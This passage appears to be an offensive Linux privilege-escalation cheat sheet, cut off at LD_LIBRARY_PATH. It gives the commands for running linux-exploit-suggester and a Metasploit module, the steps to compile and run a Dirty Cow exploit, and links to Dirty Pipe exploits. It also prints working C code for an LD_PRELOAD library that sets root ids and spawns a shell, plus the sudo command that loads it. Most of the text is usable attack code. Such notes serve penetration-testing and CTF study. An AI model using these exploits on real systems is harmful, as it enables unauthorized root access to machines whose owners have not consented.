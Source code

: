 ```
# Google is your friend
./linux-exploit-suggester.sh
./linux-exploit-suggester.sh --checksec
./linux-exploit-suggester.sh --uname <uname-string>
```
MSF
```
post/multi/recon/local_exploit_suggester
```

Dirty Cow : 

- https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs. 
- https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions
- Binary should be compiled on the target. 

```
gcc -pthread c0w.c -o c0w
./c0w
passwd
```

Dirty Pipe CVE-2022-0847 - Linux Kernel 5.8 < 5.16.11 :

- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker
- https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

#### Sudo

```
sudo -l # GTFObins AND Google are your friends
```

Sudo can be configured to inherit certain environment variables, check **env_keep+=**.

- **LD_PRELOAD** specifies a library which will be loaded prior to any other library when the program gets executed.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so <sudo-binary>
```

- **LD_LIBRARY_PATH** indicates an additionnal directory to search for libraries.
